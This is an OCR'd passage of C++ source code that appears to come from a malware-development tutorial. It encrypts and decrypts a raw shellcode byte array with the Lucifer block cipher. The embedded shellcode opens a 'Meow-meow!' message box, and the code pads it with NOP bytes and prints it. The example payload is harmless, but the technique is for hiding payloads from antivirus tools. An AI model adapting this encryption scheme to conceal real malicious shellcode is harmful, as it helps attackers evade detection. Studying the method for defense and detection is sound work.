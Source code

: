```cpp
  // physically swap halves
  for (int i = 0; i < block_size / 2; ++i) {
    swap(&block[i], &block[i + block_size / 2]);
  }
}

// payload encryption function
void lucifer_encrypt_payload(unsigned char* payload, int payload_len, 
unsigned char* key) {
  for (int i = 0; i < payload_len / block_size; i++) {
    Lucifer((char*)(payload + i * block_size), (char*)key, false);
  }
}

// payload decryption function
void lucifer_decrypt_payload(unsigned char* payload, int payload_len, 
unsigned char* key) {
  for (int i = 0; i < payload_len / block_size; i++) {
    Lucifer((char*)(payload + i * block_size), (char*)key, true);
  }
}

int main() {
  unsigned char key[16] = "meowmeowbowwoow"; // example 128-bit key
  unsigned char my_payload[] = {
    0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x0, 0x0,
    0x0, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65,
    0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52, 0x18, 0x3e, 0x48, 0x8b,
    0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0xf, 0xb7, 0x4a,
    0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x2,
    0x2c, 0x20, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0xe2, 0xed, 0x52,
    0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x8b, 0x42, 0x3c, 0x48,
    0x1, 0xd0, 0x3e, 0x8b, 0x80, 0x88, 0x0, 0x0, 0x0, 0x48, 0x85, 0xc0,
    0x74, 0x6f, 0x48, 0x1, 0xd0, 0x50, 0x3e, 0x8b, 0x48, 0x18, 0x3e, 0x44,
    0x8b, 0x40, 0x20, 0x49, 0x1, 0xd0, 0xe3, 0x5c, 0x48, 0xff, 0xc9, 0x3e,
    0x41, 0x8b, 0x34, 0x88, 0x48, 0x1, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31,
    0xc0, 0xac, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0x38, 0xe0, 0x75,
    0xf1, 0x3e, 0x4c, 0x3, 0x4c, 0x24, 0x8, 0x45, 0x39, 0xd1, 0x75, 0xd6,
    0x58, 0x3e, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x1, 0xd0, 0x66, 0x3e, 0x41,
    0x8b, 0xc, 0x48, 0x3e, 0x44, 0x8b, 0x40, 0x1c, 0x49, 0x1, 0xd0, 0x3e,
    0x41, 0x8b, 0x4, 0x88, 0x48, 0x1, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e,
    0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20,
    0x41, 0x52, 0xff, 0xe0, 0x58, 0x41, 0x59, 0x5a, 0x3e, 0x48, 0x8b, 0x12,
    0xe9, 0x49, 0xff, 0xff, 0xff, 0x5d, 0x49, 0xc7, 0xc1, 0x0, 0x0, 0x0,
    0x0, 0x3e, 0x48, 0x8d, 0x95, 0xfe, 0x0, 0x0, 0x0, 0x3e, 0x4c, 0x8d,
    0x85, 0x9, 0x1, 0x0, 0x0, 0x48, 0x31, 0xc9, 0x41, 0xba, 0x45, 0x83,
    0x56, 0x7, 0xff, 0xd5, 0x48, 0x31, 0xc9, 0x41, 0xba, 0xf0, 0xb5, 0xa2,
    0x56, 0xff, 0xd5, 0x4d, 0x65, 0x6f, 0x77, 0x2d, 0x6d, 0x65, 0x6f, 0x77,
    0x21, 0x0, 0x3d, 0x5e, 0x2e, 0x2e, 0x5e, 0x3d, 0x0
  };

  int my_payload_len = sizeof(my_payload);
  int pad_len = my_payload_len + (block_size - my_payload_len % block_size) % 
  block_size;

  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);  // pad with NOPs (0x90)
  memcpy(padded, my_payload, my_payload_len);

  printf("original payload: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
```
